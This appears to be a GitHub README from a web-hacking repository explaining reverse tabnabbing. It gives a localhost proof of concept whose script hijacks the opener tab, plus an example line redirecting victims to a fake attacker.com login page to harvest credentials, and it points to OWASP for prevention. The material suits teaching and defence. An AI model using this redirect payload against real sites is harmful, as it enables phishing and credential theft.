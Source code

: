 # Reverse Tab Nabbing
In a situation where an attacker can control the `href` argument of an `<a` tag with the attribute `target="_blank" rel="opener"` that is going to be clicked by a victim, the attacker point this link to a web under his control (a malicious website). Then, once the victim clicks the link and access the attackers website, this malicious website will be able to control the original page via the javascript object window.opener.

If the page doesn't have `rel="opener"` but contains `target="_blank"` it also doesn't have `rel="noopener"` it might be also vulnerable.

A regular way to abuse this behaviour would be to change the location of the original web via `window.opener.location = https://attacker.com/victim.html` to a web controlled by the attacker that looks like the original one, so it can imitate the login form of the original website and ask for credentials to the user.


## Overview
### With back link

Link between parent and child pages when prevention attribute is not used:

<img src="https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/b80ac8ef-2c88-427b-b80f-a4d8b573c589" width="700" height="500">


### Without back link

Link between parent and child pages when prevention attribute is used:

<img src="https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/12be0bae-81cd-4902-9d4c-083041098574" width="700" height="500">

## How to exploit
Create the following pages in a folder and run a web server with `python3 -m http.server`

Then, access `http://127.0.0.1:8000/vulnerable.html`, click on the link and note how the original website URL changes.

```html
vulnerable.html
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```


```html
malicious.html
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
  </script>
 </body>
</html>
```


```html
malicious_redir.html
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```

### Accessible properties
The malicious site can only access to the following properties from the opener javascript object reference (that is in fact a reference to a window javascript class instance) in case of cross origin (cross domains) access:

* `opener.closed`: Returns a boolean value indicating whether a window has been closed or not.
* `opener.frames`: Returns all iframe elements in the current window.
* `opener.length`: Returns the number of iframe elements in the current window.
* `opener.opener`: Returns a reference to the window that created the window.
* `opener.parent`: Returns the parent window of the current window.
* `opener.self`: Returns the current window.
* `opener.top`: Returns the topmost browser window.

If the domains are the same then the malicious site can access all the properties exposed by the [window](https://developer.mozilla.org/en-US/docs/Web/API/Window) javascript object reference.

## Prevention
Prevention information are documented into the [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#tabnabbing).







